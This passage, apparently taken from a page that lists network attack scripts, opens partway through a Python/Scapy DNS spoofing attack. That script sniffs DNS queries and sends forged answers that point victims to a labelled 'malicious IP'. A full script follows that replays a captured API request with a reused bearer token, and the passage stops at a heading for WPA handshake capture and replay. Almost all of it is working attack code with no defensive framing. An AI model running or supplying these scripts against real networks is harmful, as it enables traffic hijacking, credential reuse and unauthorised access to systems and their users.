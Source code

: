 ```python
                              rdata='192.168.1.100'  # Malicious IP
                          )
                      )
            
            send(spoofed, verbose=0)
            print(f"Sent spoofed DNS response to {pkt[IP].src}")
    
    # Sniff for DNS queries
    print("Starting DNS spoofing attack...")
    sniff(filter="udp port 53", prn=dns_spoof)

dns_spoofing()
```

### 5. API Request Replay Attack

```python
import requests
import json
from time import sleep

def api_request_replay():
    # Extract an API request from a file
    with open('api_request.txt', 'r') as f:
        request_data = json.loads(f.read())
    
    headers = {
        'Authorization': 'Bearer ' + request_data['token'],
        'Content-Type': 'application/json'
    }
    
    # Replay the request multiple times to test rate limiting
    for i in range(10):
        response = requests.post(
            'https://api.example.com/data', 
            headers=headers,
            json=request_data['payload']
        )
        
        print(f"Request {i+1}: Status {response.status_code}")
        if response.status_code != 200:
            print(f"Response: {response.text}")
            break
            
        sleep(0.5)  # Small delay between requests

api_request_replay()
```

### 6. WPA Handshake Capture and Replay

